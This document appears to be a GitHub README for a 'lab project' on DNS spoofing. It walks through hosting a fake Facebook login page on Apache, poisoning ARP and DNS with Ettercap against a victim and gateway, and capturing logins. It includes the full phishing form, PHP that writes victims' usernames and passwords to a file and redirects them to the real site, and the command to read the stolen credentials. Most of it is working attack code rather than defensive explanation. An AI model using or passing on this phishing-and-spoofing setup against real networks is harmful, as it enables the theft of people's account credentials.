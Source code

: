 # DNS_Spoofing_Project
A Practical Lab Project Demonstrating DNS Spoofing Attacks.

# DNS Spoofing Fake Facebook Project

## Project Overview
This project demonstrates a DNS spoofing attack using Kali Linux and Ettercap. The attacker redirects a victim’s browser from the real Facebook website to a fake login page ("facebouk") hosted on the attacker’s machine. The goal is to capture the victim’s login credentials.

---

## Tools Used
- Kali Linux (Attacker)
- Apache2 Web Server
- Ettercap
- Victim Machine (Windows/Linux on same network)

---

## Prerequisites
- Kali Linux installed with Apache2 and Ettercap
- Victim machine connected to same local network
- Basic knowledge of network and Linux commands

---

## Setup Instructions

### 1. Setup Apache Server
```bash
# Create folder for fake site
sudo mkdir -p /var/www/html/facebouk


# Copy your fake Facebook files (HTML, PHP, CSS) into this folder
# Example:
sudo cp -r /path/to/fake_facebook_files/* /var/www/html/facebouk/

# Set permissions
sudo chown -R www-data:www-data /var/www/html/facebouk
sudo chmod -R 755 /var/www/html/facebouk

# Start Apache server
sudo systemctl start apache2
sudo systemctl enable apache2
```
### 2. Configure Ettercap DNS Spoofing
```bash
# Edit DNS spoof file
sudo nano /etc/ettercap/etter.dns

# Add these lines (replace 192.168.x.x with your Kali Linux IP):
facebouk.com A 192.168.x.x
www.facebouk.com A 192.168.x.x

```
### 3. Start Ettercap to perform ARP poisoning and DNS spoofing
```bash
sudo ettercap -T -q -i eth0 -M arp:remote /victim_ip// /gateway_ip// -P dns_spoof

# Replace eth0 with your Kali network interface (find with ifconfig or ip a).
# Replace victim_ip with victim’s IP address.
# Replace gateway_ip with your router’s IP address.

```



### Example Fake Facebook Login Page Code
```bash
# HTML (index.html)
<!DOCTYPE html>
<html>
<head>
  <title>Facebook Login</title>
</head>
<body>
  <h2>Login to Facebook</h2>
  <form action="login.php" method="POST">
    Username: <input type="text" name="username" required><br><br>
    Password: <input type="password" name="password" required><br><br>
    <input type="submit" value="Log In">
  </form>
</body>
</html>


# PHP to Capture Credentials (login.php)

<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $user = $_POST['username'];
    $pass = $_POST['password'];

    // Save credentials to a file
    $file = fopen("credentials.txt", "a");
    fwrite($file, "Username: $user | Password: $pass\n");
    fclose($file);

    // Redirect to real Facebook page after capturing credentials
    header("Location: https://www.facebook.com");
    exit();
}
?>


```
### How to Test

- Make sure Apache is running and hosting fake site at http://192.168.x.x/facebouk.
- Run Ettercap as above.
- On victim machine, open browser and visit facebook.com.
- Victim should see the fake Facebook login page.
- Entered credentials will be saved in credentials.txt inside /var/www/html/facebouk/.

### 4. 4. Check captured credentials
```bash
#On your Kali Linux attacker machine:
cat /var/www/html/facebouk/credentials.txt

"You should see the username and password entered by the victim"

```
### Troubleshooting
- If victim is not redirected:
- Verify IP addresses used are correct.
- Check Apache service is running: sudo systemctl status apache2
- Clear DNS cache on victim (Windows: ipconfig /flushdns).
- If Ettercap gives errors:
- Run with sudo.
- Check network interface name.
- Disable firewall if blocking traffic.

### Summary of Important Commands
```bash
# Start Apache server
sudo systemctl start apache2

# Enable Apache at boot
sudo systemctl enable apache2

# Edit etter.dns to add spoof entries
sudo nano /etc/ettercap/etter.dns

# Run ettercap with ARP poisoning and DNS spoofing
sudo ettercap -T -q -i eth0 -M arp:remote /victim_ip// /gateway_ip// -P dns_spoof



